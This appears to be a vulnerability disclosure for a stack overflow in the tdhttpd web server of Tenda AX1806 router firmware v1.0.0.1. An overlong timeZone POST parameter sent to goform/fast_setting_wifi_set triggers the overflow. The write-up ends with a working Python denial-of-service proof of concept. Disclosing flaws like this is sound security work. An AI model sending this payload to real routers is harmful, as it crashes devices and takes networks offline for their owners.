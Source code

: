 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has a stack overflow vulnerability. The vulnerability occurrs in the form_fast_setting_wifi_set function, which can be accessed through the URL `goform/fast_setting_wifi_set`.  

- <img src="./image/1.png" alt="1.png" style="zoom:50%;" />

The function takes the POST parameter `timeZone`, does not validate its length, and copies it directly to local variables on the stack, causing stack overflows.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"ssid": b'A',
    b"timeZone": b"A"*0x100 + b":" + b"A"*0x400 
}
res = requests.post("http://127.0.0.1/goform/fast_setting_wifi_set", data=data)
print(res.content)
```

